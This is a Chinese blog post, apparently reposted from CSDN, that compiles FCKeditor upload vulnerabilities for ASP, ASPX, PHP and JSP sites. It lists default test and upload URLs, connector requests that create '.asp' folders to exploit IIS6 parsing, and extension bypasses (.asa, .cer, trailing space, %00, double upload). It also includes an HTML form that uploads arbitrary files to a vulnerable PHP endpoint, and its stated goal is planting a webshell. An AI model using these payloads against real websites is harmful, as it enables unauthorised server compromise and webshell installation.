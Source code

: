 **目录**

[FCKeditor](#t0 "FCKeditor")

[asp网页](#t1 "asp网页")

[aspx网页](#t2 "aspx网页")

[php网页](#t3 "php网页")

[jsp网页](#t4 "jsp网页 ") 

* * *

FCKeditor
---------

FCKeditor是一个功能强大支持所见即所得功能的文本编辑器，可以为用户提供微软office软件一样的在线文档编辑服务。它不需要安装任何形式的客户端，兼容绝大多数主流浏览器，支持ASP.Net、ASP、ColdFusion 、PHP、Java、Active-FoxPro、Lasso、Perl、python 等编程环境。

**查看编辑器版本：**

```
/fckeditor/editor/dialog/fck_about.html      
/FCKeditor/_whatsnew.html
```


![](https://img-blog.csdnimg.cn/20190423090809911.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20190423090725259.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**一些FCK默认链接(以asp为例)：**

```
上传测试页面：Fckeditor编辑器默认会存在test.html和uploadtest.html文件，直接访问这些文件可以获取当前文件夹文件名称以及上传文件，有的版本可以直接上传任意文件类型，测试上传地址有：      
FCKeditor/editor/filemanager/browser/default/connectors/test.html      
FCKeditor/editor/filemanager/upload/test.html      
FCKeditor/editor/filemanager/connectors/test.html      
FCKeditor/editor/filemanager/connectors/uploadtest.html       
示例页面：      
FCKeditor/_samples/default.html      
FCKeditor/_samples/asp/sample01.asp      1
FCKeditor/_samples/asp/sample02.asp      1
FCKeditor/_samples/asp/sample03.asp      1
FCKeditor/_samples/asp/sample04.asp       1
连接器：      1
FCKeditor/editor/filemanager/connectors/asp/connector.asp      1
FCKeditor/editor/filemanager/connectors/aspx/connector.aspx       1
创建文件夹链接：      1
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/&NewFolderName=test       2
上传页面：      2
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=connectors/asp/connector.Asp      2
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp      2
FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp      2
FCKeditor/editor/filemanager/browser/default/browser.html?Type=/&Connector=connectors/asp/connector.asp      2
FCKeditor/editor/filemanager/browser/default/browser.html?Type=monyer&Connector=connectors/asp/connector.asp       2
有时候，网站管理员会把上传页面禁止创建文件夹和上传文件，但是由于网站管理员的配置不当，我们的连接器写绝对路径的话，有时候可以创建文件夹和上传文件      2
Fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=http://ww.xxx.com/connectors/asp/connector.Asp      3
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://ww.xxx.com/connectors/asp/connector.asp      3
Fckeditor/editor/filemanager/browser/default/browser.html?Type=Flash&Connector=http://ww.xxx.com/connectors/asp/connector.asp
```


![](https://img-blog.csdnimg.cn/20190423095508776.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20190423095546778.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20190423100913404.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20190423101016952.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20190423101123893.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**FCKeditor 文件上传“.”变“\_”下划线的绕过方法**

很多时候上传的文件例如： 或shell.asp;.jpg 会变为shell\_asp;.jpg 这是新版FCK 的变化。

*   继续上传同名文件可变为shell.php;(1).jpg ，但是新版Fckeditor也修复了这个漏洞。

如果服务器有解析漏洞的话，可以创建文件夹来突破

```
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/xx.asp&NewFolderName=x.asp
```


### asp网页

asp一般是搭在Windows Server主机上，Web Server版本一般为 IIS6 / IIS7 / IIS7.5。据我现在所知，asp版的fckeditor已经可以全秒了。

< 2.4.x 版本的File参数时为黑名单验证，可以通过上传.asa、.cer、.asp;jpg（针对IIS6）。如果asa、cer不被解析，还可以传.asp\[空格\]。传的方法就是抓包然后在数据包里的文件名后填个空格。

对于 2.5.x 和 2.6.x  版本，如果是IIS6.0 ，可以通过突破变”.”为”\_”限制创建.asp文件夹，代码如下：

```
Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=/shell.asp&NewFolderName=z.asp
```


复制代码然后往这个文件夹里传 jpg ，这个不多说了。

如果是IIS7及以上，这种方法就gg了。这个时候可以借助刚爆出来的那种方法，先传shell.asp%00txt，然后再传一次。

至此，asp版本已经全秒了。

### aspx网页

低版本同ASP版，2.6.x用刚爆出来的二次上传已经不好使了，不过新建test.asp的文件夹还可以使。一般IIS6.0会支持asp，可以先传个asp上去，然后再XX。

### php网页

1：低版本（2.4.x及以下），仍然为黑名单验证，windows主机可以使用php\[空格\]传，2.4.3的有个media未设置导致任意文件上传可以秒linux。

2：2.5.x以后是白名单验证，仅能寄希望于wooyun里爆的那个<2.6.4的任意文件上传，成功率有限。

3：2.6.4以上的php版，据我所知没戏，求高人指点！我粗略的看了一下它的验证逻辑，表示没戏，windows里的敏感字符全给过滤了。

4：当FCKeditor 版本 <=2.4.2的php网页在处理PHP 上传的地方并未对Media 类型进行上传文件类型的控制，导致用户上传任意文件！将以下保存为html文件，修改action地址为存在漏洞网页的链接。

```
<form id="frmUpload" enctype="multipart/form-data"      
action="http://www.site.com/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">Upload a new file:<br>      
<input type="file" name="NewFile" size="50"><br>      
<input id="btnUpload" type="submit" value="Upload">      
</form>
```


### jsp网页 

```
http://www.xxx.com/fckeditor/editor/filemanager/browser/default/connectors/jsp/connector?Command=FileUpload&Type=Image&CurrentFolder=%2F
```


**上传马所在目录**

```
FCKeditor/editor/filemanager/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
```


**上传shell的地址**

```
http://www.xxx.com/fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector
```


跟版本有关系.并不是百分百成功. 测试成功几个站.  
不能通杀.很遗憾.

```
http://www.****.com/FCKeditor/editor/filemanager/browser/default/browser.html?type=File&connector=connectors/jsp/connector
```


如果以上地址不行可以试试

```
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=/servlet/Connector      
FCKeditor/_samples/      
FCKeditor/_samples/default.html      
FCKeditor/editor/fckeditor.htm      
FCKeditor/editor/fckdialog.html
```


  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

转载文章：[FCKeditor上传漏洞总结\_龙哥盟-CSDN博客\_fckeditor 上传漏洞](https://blog.csdn.net/wizardforcel/article/details/50695885 "FCKeditor上传漏洞总结_龙哥盟-CSDN博客_fckeditor 上传漏洞")

                 [Fckeditor常见漏洞的挖掘与利用整理汇总\_lizhengnanhua的专栏-CSDN博客](https://blog.csdn.net/lizhengnanhua/article/details/38451737 "Fckeditor常见漏洞的挖掘与利用整理汇总_lizhengnanhua的专栏-CSDN博客")